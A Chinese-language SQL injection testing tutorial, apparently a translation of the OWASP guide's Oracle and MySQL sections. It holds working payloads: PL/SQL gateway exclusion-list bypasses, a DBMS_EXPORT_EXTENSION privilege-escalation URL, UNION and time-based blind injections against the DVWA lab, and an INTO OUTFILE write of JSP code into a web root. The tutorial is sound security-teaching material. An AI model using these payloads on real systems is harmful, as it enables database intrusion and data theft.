

# 第8讲附章 SQL注入测试细节

- Testing_for_Oracle
- Testing_for_MySQL
- Testing_for_SQL_Server
- Testing_PostgreSQL
- Testing_for_MS_Access
- Testing_for_NoSQL_Injection
- Testing_for_ORM_Injection
- Testing_for_Client_Side

## Oracle 测试

### 概述

基于Web的PL/SQL应用通过PL/SQL网关运行，这一网关可以讲web请求转换为数据库查询。Oracle已经开发了很多软件，从早期web监听产品到Apache ```mod_plsql```模块，再到XML Database（XDB）web服务器。所有的产品有其自身的特点和问题，本节将尽可能的分析这些问题。使用PL/SQL网关的产品包括但不限于：
- Oracle HTTP Server
- eBusiniess Suite
- Portal
- HTMLDB
- WebDB
- Oracle Application Server

### 如何测试

#### PL/SQL网关如何工作？
本质上，PL/SQL网关扮演了一个代理服务器的角色，它接收用户web请求并传递到数据库服务器去执行。基本步骤如下：
- 某Web Server接收来自客户端的请求，判定是否应该由PL/SQL网关处理
- PL/SQL网关处理从原始请求中提取出的package name，procedure，variables
- 被请求的package和procedure被一个匿名PL/SQL块所包装，送给数据库服务器
- 数据服务器执行过程，并把结果以HTML形式送给网关
- 网关把响应发送给web服务器，再传递给客户。

注意：PL/SQL 代码不存放在web server上，而是存放在数据库服务器上。这意味着当 PL/SQL 网关中的任何缺陷或在 PL/SQL 应用中的漏洞被攻击者利用时，攻击者会获得数据库服务器的访问权，而不再有防火墙等机制阻拦他。

PL/SQL web应用的URLs大多可以简单识别，通常它们以下列形式表达数据库访问描述（xyz是某个字符串）：
- http://www.example.com/pls/xyz
- http://www.example.com/xyz/owa
- http://www.example.com/xyz/plsql

上面第2，3种是老一点的应用中常见的url，第1种是最近版本的应用中使用的形式。在```plsql.conf```这个Apache 配置文件中，```/pls```是默认的PLS模块存放位置。这个位置可以改变。URL中没有文件扩展名，这可能意味着存在Oracle PL/SQL网关，考虑下列URL: ```http://www.server.com/aaa/bbb/xxxxx.yyyyy```

如果 xxxx.yyyy 这个字符串依次被 ebank.home, store.welcome, auth.login, or books.search 所替代，那么当前 web server 就很有可能使用了 PL/SQL 网关。有时url中出现的字符串是用户名和他名下的package和procedure，例如：```http://www.server.com/pls/xyz/webuser.pkg.proc```。在这个URL中，xyz是数据库访问描述符（Database Access Descriptor, or DAD.），DAD指明了数据库服务器，使PL/SQL网关可以连接它。DAD包括诸如：TNS连接字符串、user ID，密码、认证方法等。在许多近期版本中，DAD在```dads.conf```这个Apache 配置文件中被定义，而在老版本中它位于```wdbsvr.app```中。一些默认的DADs如下：
```
SIMPLEDAD
HTMLDB
ORASSO
SSODAD
PORTAL
PORTAL2
PORTAL30
PORTAL30_SSO
TEST
DAD
APP
ONLINE
DB
OWA
```

#### 判断PL/SQL是否在运行

对服务器执行评测时，首先要知道的是评测对象使用了什么技术。识别基于web的PL/SQL应用相对容易，首先它的URL有一定特点，上面已经介绍了。此外下面的测试可以辅助判断PL/SQL网关的存在：
##### 服务器响应头部
服务器响应头部是一个很好揭示了当前服务器是否为运行的PL/SQL网关。下面的表中列出了典型的响应头：
```
Oracle-Application-Server-10g
Oracle-Application-Server-10g/10.1.2.0.0 Oracle-HTTP-Server
Oracle-Application-Server-10g/9.0.4.1.0 Oracle-HTTP-Server
Oracle-Application-Server-10g OracleAS-Web-Cache-10g/9.0.4.2.0 (N)
Oracle-Application-Server-10g/9.0.4.0.0
Oracle HTTP Server Powered by Apache
Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_plsql/3.0.9.8.3a
Oracle HTTP Server Powered by Apache/1.3.19 (Unix) mod_plsql/3.0.9.8.3d
Oracle HTTP Server Powered by Apache/1.3.12 (Unix) mod_plsql/3.0.9.8.5e
Oracle HTTP Server Powered by Apache/1.3.12 (Win32) mod_plsql/3.0.9.8.5e
Oracle HTTP Server Powered by Apache/1.3.19 (Win32) mod_plsql/3.0.9.8.3c
Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_plsql/3.0.9.8.3b
Oracle HTTP Server Powered by Apache/1.3.22 (Unix) mod_plsql/9.0.2.0.0
Oracle_Web_Listener/4.0.7.1.0EnterpriseEdition
Oracle_Web_Listener/4.0.8.2EnterpriseEdition
Oracle_Web_Listener/4.0.8.1.0EnterpriseEdition
Oracle_Web_listener3.0.2.0.0/2.14FC1
Oracle9iAS/9.0.2 Oracle HTTP Server
Oracle9iAS/9.0.3.1 Oracle HTTP Server
```
##### NULL测试
在PL/SQL中，null是完全可接受的表达式。例如：
```
SQL> BEGIN
2  NULL;
3  END;
4  /
PL/SQL procedure successfully completed.
```
我们使用这一点来测试是否服务器为运行的PL/SQL网关。简单地在DAD后增加NULL，以及增加NOSUCHPROC:
```
http://www.example.com/pls/dad/null
http://www.example.com/pls/dad/nosuchproc
```
如果服务器对上述第一个请求响应以200 ok，而对第二个请求响应以404 not found，那么就说明服务器为PL/SQL网关。

##### 访问已知的包

老版本的PL/SQL网关会直接访问packages，形成PL/SQL web toolkit，例如OWA和HTP包。这些包中之一是OWA_UTIL包，这个包包含了一个叫做SIGNATURE的过程，而且它会以html形式输出一个PL/SQL签名。那么发出下列请求：```http://www.example.com/pls/dad/owa_util.signature```，则会返回下列响应：```"This page was produced by the PL/SQL Web Toolkit on date"``` 或 ```"This page was produced by the PL/SQL Cartridge on date"```.

如果你没有得到上述响应，而得到的是403 Forbidden响应，那么你还是可以推断PL/SQL网关正在运行，这是新版本应用中的提示。

##### 访问数据库中任意的PL/SQL包
可以利用数据库服务器默认安装在PL/SQL包中利用漏洞。如何执行此操作取决于PL/SQL网关的版本。在PL/SQL网关的早期版本中，没有什么可以阻止攻击者访问数据库服务器中的任意PL / SQL程序包。我们之前提到了该OWA_UTIL程序包。这可以用于运行任意SQL查询：

```http://www.example.com/pls/dad/OWA_UTIL.CELLSPRINT? P_THEQUERY=SELECT+USERNAME+FROM+ALL_USERS```

跨站点脚本攻击可以通过HTP软件包发起：

```http://www.example.com/pls/dad/HTP.PRINT?CBUF=<script>alert('XSS')</script>```

显然这很危险，因此Oracle引入了PLSQL排除列表以防止直接访问此类危险过程。禁止的项目包括以```SYS.*```、```DBMS_*```开头的任何请求，禁止任何含有```HTP.*```或```OWA*```的请求。然后绕过这些黑名单是有可能的。此外，排除列表不会阻止访问```CTXSYS```和```MDSYS```模式或其他模式中的程序包，因此可以利用以下程序包中的缺陷：

```http://www.example.com/pls/dad/CXTSYS.DRILOAD.VALIDATE_STMT?SQLSTMT=SELECT+1+FROM+DUAL```

如果数据库服务器受上述漏洞的影响，则将返回空白的HTML页面，响应为200 OK（CVE-2006-0265），这证明了当前所用的技术为oracle的pl/sql 服务器。

##### 绕过 PL/SQL 排除列表（黑名单）
甲骨文试图修复绕过排除列表缺陷的次数令人难以置信。Oracle产生的每个补丁都成为新旁路技术的牺牲品。可以参考：https://seclists.org/fulldisclosure/2006/Feb/11

###### 方法1
在Oracle首次引入PL / SQL排除列表，防止攻击者访问任意PL / SQL程序包时，可以通过在模式/程序包名称前添加十六进制编码的换行符或空格或制表符来略过它：
```
http://www.example.com/pls/dad/%0ASYS.PACKAGE.PROC
http://www.example.com/pls/dad/%20SYS.PACKAGE.PROC
http://www.example.com/pls/dad/%09SYS.PACKAGE.PROC
```

###### 方法2
对于PL/SQL网关的新版本应用，攻击者可以在schema/package名称前添加标签来绕过黑名单。在PL/SQL中，指向代码行的标签的形式如下（代码可由GOTO语句跳转）：```<<NAME>>```

```http://www.example.com/pls/dad/<<LABEL>>SYS.PACKAGE.PROC```

###### 方法3
只需将 schema/package 的名称放在双引号中，即可使攻击者绕过排除列表。注意，这在Oracle应用服务器10g是行不通的，因为oracle 10g 会在发送请求到数据库服务器前，把用户的请求转换成小写字符串，而引号字符是大小写敏感的，这样```SYS```和```sys```就是两个不同的字符串，这会导致404报错。较10g早期的版本可以使用如下的请求url:
```http://www.example.com/pls/dad/"SYS".PACKAGE.PROC```

###### 方法4
取决于web服务器和数据库服务器使用的字符集，一些字符可以被转义。例如数据库服务器遇到```ÿ```可能转换为```y```。又例如，经常转换为大写字母```Y```的是Macron字符```0xAF```。下面是一个可能使攻击者绕过排除列表的例子：
```
http://www.example.com/pls/dad/S%FFS.PACKAGE.PROC 
http://www.example.com/pls/dad/S%AFS.PACKAGE.PROC
```
###### 方法5
一些PL/SQL网关的版本可以使用反斜杠```0x5c```绕过，例如：
```http://www.example.com/pls/dad/%5CSYS.PACKAGE.PROC```

###### 方法6

最复杂的绕过方法使最近oracle打补丁防止的绕过方法。例如我们的url请求如下：```http://www.example.com/pls/dad/foo.bar?xyz=123```，这台应用服务器可能在数据库服务器上执行下列代码：

```sql
declare
    rc__ number;
    start_time__ binary_integer;
    simple_list__ owa_util.vc_arr;
    complex_list__ owa_util.vc_arr;
begin
    start_time__ := dbms_utility.get_time;
    owa.init_cgi_env(:n__,:nm__,:v__);
    htp.HTBUF_LEN := 255;
    null;
    null;
    simple_list__(1) := 'sys.%';
    simple_list__(2) := 'dbms\_%';
    simple_list__(3) := 'utl\_%';
    simple_list__(4) := 'owa\_%';
    simple_list__(5) := 'owa.%';
    simple_list__(6) := 'htp.%';
    simple_list__(7) := 'htf.%';
    if ((owa_match.match_pattern('foo.bar', simple_list__, complex_list__, true))) then
        rc__ := 2;
    else
        null;
        orasso.wpg_session.init();
        foo.bar(XYZ=>:XYZ);
        if (wpg_docload.is_file_download) then
            rc__ := 1;
            wpg_docload.get_download_file(:doc_info);
            orasso.wpg_session.deinit();
            null;
            null;
            commit;
        else
        rc__ := 0;
        orasso.wpg_session.deinit();
        null;
        null;
        commit;
        owa.get_page(:data__,:ndata__);
        end if;
    end if;
    :rc__ := rc__;
    :db_proc_time__ := dbms_utility.get_time—start_time__;
end;
```

注意上面的第19行和24行。在第19行，使用了一个已知的坏字符串列表检查用户请求。如果请求中不包含坏字符，那么会执行第24行的过程。XYZ参数会以绑定值传递。

如果我们把请求修改为：```http://server.example.com/pls/dad/INJECT'POINT```

那么下面的PL/SQL将会被执行：
```sql
..
simple_list__(7) := 'htf.%';
if ((owa_match.match_pattern('inject'point', simple_list__ complex_list__, true))) then
    rc__ := 2;
else
    null;
    orasso.wpg_session.init();
    inject'point;
..
```

执行后产生了一个错误，错误日志为：```“PLS-00103: Encountered the symbol ‘POINT’ when expecting one of the following. . .”``` 这样我们就有了注入任意的SQL的一种方法，可以用来绕过黑名单。首先攻击者需要找到一个无参数的且不会被黑名单过滤的PL/SQL过程。有不少这类package，例如：
```
JAVA_AUTONOMOUS_TRANSACTION.PUSH
XMLGEN.USELOWERCASETAGNAMES
PORTAL.WWV_HTP.CENTERCLOSE
ORASSO.HOME
WWC_VERSION.GET_HTTP_DATABASE_INFO
```
攻击者选择上面列表中确实能在目标系统中使用的一个，例如能返回200 ok的那个。作为一各尝试，请求可能如下：```http://server.example.com/pls/dad/orasso.home?FOO=BAR```。

服务器可能会返回一个404 file not found 响应，因为```orasso.home```过程没有要求参数，但请求中有一个参数。然而，在404返回前，下列的PL/SQL会被执行：
```sql
..
..
if ((owa_match.match_pattern('orasso.home', simple_list__, complex_list__, true))) then
rc__ := 2;
else
null;
orasso.wpg_session.init();
orasso.home(FOO=>:FOO);
..
..
```

注意，攻击者查询字符串中的FOO，攻击者可以使用这种方法允许任意的SQL。首先需要将方括号括起来：```http://server.example.com/pls/dad/orasso.home?);--=BAR```

这样会导致下列PL/SQL被执行：
```
..
orasso.home();--=>:);--);
..
```

注意，在双减号后的任何字符会被认为是注释。这个请求会引起内部服务器错误，因为一个绑定变量不再有用，所以攻击者需要把他加到后面。绑定变量是运行任意PL/SQL的关键。此时我们已使用HTP.PRINT打印BAR，需要绑定变量：1例如：
```http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR```

这会返回一个含有BAR的200 ok响应。等号后的```BAR```为插入到绑定变量中的数据。使用同样的技术，可以访问```owa_util.cellsprint```:
```http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS```

可执行的SQL语句包括DML和DLL语句，攻击者插入到执行立即数到：1:

```http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual```

注意，输出不会被显示。它可能利用渗透任何属于SYS的PL/SQL注入漏洞，这样能使攻击者获得完整的后台数据库控制权。例如，接下来的URL利用了```DBMS_EXPORT_EXTENSION```中的SQL注入漏洞:
```
http://www.example.com/pls/dad/orasso.home?);
execute%20immediate%20:1;--=DECLARE%20BUF%20VARCHAR2(2000);%20BEGIN%20
BUF:=SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('INDEX_NAME','INDEX_SCHEMA','DBMS_OUTPUT.PUT_LINE(:p1); EXECUTE%20IMMEDIATE%20''CREATE%20OR%20REPLACE%20
PUBLIC%20SYNONYM%20BREAKABLE%20FOR%20SYS.OWA_UTIL'';
END;--','SYS',1,'VER',0);END;
```

#### 评估自定义PL / SQL Web应用程序
在黑盒安全性评估期间，自定义PL / SQL应用程序的代码不可见，但仍需要评估其安全漏洞。

##### 测试SQL注入
应该测试每个输入参数的SQL注入缺陷。这些很容易找到和确认。找到它们就像将单引号嵌入参数中并检查错误响应（响应中包括404 Not Found错误）一样容易。可以使用串联运算符（concatenation）来确认是否存在SQL注入。

例如，假设有一个书店 PL / SQL Web应用程序，该应用程序允许用户搜索给定作者的书：

```http://www.example.com/pls/bookstore/books.search?author=DICKENS```

如果此请求返回查尔斯·狄更斯的书，但

```http://www.example.com/pls/bookstore/books.search?author=DICK'ENS```

返回错误或404，则可能存在SQL注入缺陷。可以通过使用串联运算符来确认：

```http://www.example.com/pls/bookstore/books.search?author=DICK'||'ENS```

如果此请求返回了Charles Dickens的书，则表明您已确认存在SQL注入漏洞。

### 工具
- SQLInjector
- Orascan (Oracle Web Application VA scanner), NGS SQuirreL (Oracle RDBMS VA Scanner)

## Mysql sql注入测试

### 摘要

凡是没有充分约束或清理用户输入，而且使用这些输入构造SQL查询，就会发生SQL注入漏洞。使用动态SQL（通过字符串连接构造SQL查询）为这些漏洞打开了大门。SQL注入使攻击者可以访问SQL服务器。它允许在用于连接数据库的用户权限下执行SQL代码。

MySQL服务器具有一些特殊性，因此某些漏洞需要为此专门定制。这是本节的主题。

### 测试方法
当在由MySQL数据库支持的应用程序中发现SQL注入漏洞时，根据MySQL版本和DBMS上的用户权限，可能会执行多种攻击。

MySQL至少有4个版本较为常见：3.23.x，4.0.x，4.1.x和5.0.x。每个版本都有一组能揭示当前版本的特性指纹。
- 4.0之后：增加了 UNION
- 4.1之后：增加了 Subqueries
- 5.0之后，增加了： 存储过程、存储函数、命名为 INFORMATION_SCHEMA 的视图
- 5.0.2之后，增加了：Triggers

注意，对于MSSQL 4.0.x之前的版本，仅Boolean或基于时间的盲注攻击可以使用，因为子查询功能或UNION语句还没有实现。

现在，我们假设有一个典型的SQL注入漏洞，其请求链接为：```http://www.example.com/page.php?id=2```.

#### 单引号问题

在利用MySQL特性之前，必须考虑如何在语句中表示字符串，因为Web应用程序通常会用单引号引起来。Mysql引号转义如下：
```'A string with \'quotes\''```

这里，Mysql解释```\'```为字符，而不是元字符。所以假如应用正常工作，下面两个使用静态字符串的例子是有区别的：
- Web应用转义单引号```'```为```\'```
- Web应用不转义单引号```'```为```'```

在Mysql中，有一种标准做法可以绕过单引号，即不使用单引号来声明静态字符串。假设我们想知道某个名为 password 字段的值，那么查询条件可以如下组织：
- ```password like 'A%'```
- ASCII值以十六进制形式拼接：```password like 0x4125```
- 使用函数```char()```: ```password LIKE CHAR(65,37)```

#### 多种混合查询

Mysql库连接器不支持使用```;```区分的多查询，因此无法像Microsoft SQL Server一样在单个SQL注入漏洞中注入多个非同类SQL命令。例如，下列语句会错误：```1 ; update tablename set code='javascript code' where 1 --```

#### 信息收集

##### 指纹发现

首先要知道的是是否有MySQL DBMS作为后端数据库。MySQL服务器具有一项功能，该功能用于让其他DBMS忽略MySQL方言中的子句。当注释块```'/**/'```包含感叹号时，```'/*! sql here*/'```它将由MySQL解释，并由其他DBMS视为普通注释块，正如MySQL手册中所述。

例如：
```1 /*! and 1=0 */```
如果后台运行mysql，那么注释块中的内容会被解释执行。

##### 版本号
有3种方法收集版本信息
- 使用 global variable ```@@version```
- 使用函数 ```VERSION()```
- 使用含有版本号的注释指纹 ```/*!40110 and 1=0*/``` ，这意味着下列语句

```/*!40110 and 1=0*/``` ，这意味着下列语句:
```
if(version >= 4.1.10)
    add 'and 1=0' to the query
```
与之有相同结果的还有：
- 盲注：```1 AND 1=0 UNION SELECT @@version /*```
- 推断注入：```1 AND @@version like '4.0%'```。响应将包含类似```5.0.22-log```的行。

例如DVWA靶机可执行下列语句：
```adf' or 1=1 union select version(),'1 ``` 或 ```adf' or 1=1 union select @@version,'1 ```
结果如下图：



#####  登录用户

MySQL Server依赖两种用户。
1.USER()：连接到MySQL服务器的用户。
2.CURRENT_USER()：正在执行查询的内部用户。

1和2之间有一些区别。主要的区别在于，匿名用户可以连接（如果允许）任何名称，但MySQL内部用户是一个空名称（''）。另一个区别是，如果未在其他地方声明，则存储过程或存储函数将作为创建者用户执行。可以使用来知道CURRENT_USER。

- In band injection: ```1 AND 1=0 UNION SELECT USER()```

- Inferential injection: ```1 AND USER() like 'root%'```

结果可能包含：```user@hostname```

##### 获取数据库名

mysql有一个内置的函数：```database()```

- In band injection:```1 AND 1=0 UNION SELECT DATABASE()```
- Inferential injection:```1 AND DATABASE() like 'db%'```

结果为数据库名。

##### INFOMATION_SCHEMA
mysql 5.0之后，有了 INFOMATION_SCHEMA ，它可以获取数据中所有的数据库、表、列、存储过程、函数。

|INFOMATION_SCHEMA中的表|描述|
|-|-|
|SCHEMATA	|有 SELECT_priv 权的用户所有的数据库|
|SCHEMA_PRIVILEGES	|The privileges the user has for each DB|
|TABLES	|All tables the user has (at least) SELECT_priv|
|TABLE_PRIVILEGES	|The privileges the user has for each table|
|COLUMNS	|All columns the user has (at least) SELECT_priv|
|COLUMN_PRIVILEGES	|The privileges the user has for each column|
|VIEWS	|All columns the user has (at least) SELECT_priv|
|ROUTINES	|Procedures and functions (needs EXECUTE_priv)|
|TRIGGERS	|Triggers (needs INSERT_priv)|
|USER_PRIVILEGES	|Privileges connected User has|

上述信息可以通过SQL注入来实现。

例如dvwa中盲注sql页例子：```1' union select table_name ,1 from information_schema.tables where '1'='1```
结果如下：
```
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: admin
Surname: admin
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: CHARACTER_SETS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLLATIONS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLLATION_CHARACTER_SET_APPLICABILITY
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLUMNS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: COLUMN_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: ENGINES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: EVENTS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: FILES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: GLOBAL_STATUS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: GLOBAL_VARIABLES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: KEY_COLUMN_USAGE
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PARTITIONS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PLUGINS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PROCESSLIST
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: PROFILING
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: REFERENTIAL_CONSTRAINTS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: ROUTINES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SCHEMATA
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SCHEMA_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SESSION_STATUS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: SESSION_VARIABLES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: STATISTICS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TABLES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TABLE_CONSTRAINTS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TABLE_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: TRIGGERS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: USER_PRIVILEGES
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: VIEWS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: guestbook
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: users
Surname: 1
```

#### 攻击向量
##### 写在一个文件中
如果连接数据库使用的用户有```FILE```权限，且单引号不会被过滤，那么```inot outfile```这种字句就可能被用于导出查询结果到一个文件。SQL语句例如：```Select * from table into outfile '/tmp/file'```

注意：无法绕过文件名周围的单引号。因此，如果对单引号（例如转义）进行了一些清理，```\'```将无法使用“ into outfile”子句。

这种攻击可用作带外技术，以获取有关查询结果的信息或编写可在Web服务器目录中执行的文件。

Example:

```1 limit 1 into outfile '/var/www/root/test.jsp' FIELDS ENCLOSED BY '//'  LINES TERMINATED BY '\n<%jsp code here%>';```

Results are stored in a file with rw-rw-rw privileges owned by MySQL user and group.

Where /var/www/root/test.jsp will contain:

```//field values// <%jsp code here%>```

##### 从文件中读

```Load_file```是一个能读文件的mysql内置文件，在有文件系统权限时可以使用。如果连接用户有文件权限，他可能使用某个文件的内容，如果单引号被限制，那么可以使用之前讨论的方法进行绕过。
```load_file('filename')```

#### 标准SQL注入攻击

在标准SQL注入中，您可以将结果直接显示为正常输出或MySQL错误的页面。通过使用已经提到的SQL Injection攻击和已经描述的MySQL功能，直接SQL注入可以很容易地在一个层次上完成，这主要取决于pentester所面对的MySQL版本。

一个好的攻击方法是通过强制函数/过程或服务器本身抛出错误来了解结果。在MySQL手册上可以找到由MySQL引发的错误列表，特别是本机函数。

#### 带外SQL注入
带外注入可以通过使用“ into outfile”子句来完成。

#### 盲注
对于盲目SQL注入，MySQL服务器本身提供了一组有用的功能。

- 字串长度：```LENGTH(str)```
- 从给定的字符串中提取一个子字符串：```SUBSTRING(string, offset, #chars_returned)```
- 基于时间的盲注：```BENCHMARK(#ofcycles,action_to_be_performed)``` 。 当Boolean攻击无任何结果时，可尝试benchmark函数执行计时攻击。也可以使用```SLEEP()```函数作为替代方法（MySQL> 5.0.x）。

例如dvwa盲注处可键入```1' and sleep(5) and '1'='1```,会发现过了5秒后才响应。

```1' and benchmark(500000,md5(1)) and '1'='1```,执行500000次的md5(1).
这些都说明注入有效。

### 工具

Francois Larouche：多个DBMS SQL注入工具
Reversing.org-sqlbftools
Bernardo Damele AG：sqlmap，自动SQL注入工具
Muhaimin Dzulfakar：MySqloit，MySql注入接管工具

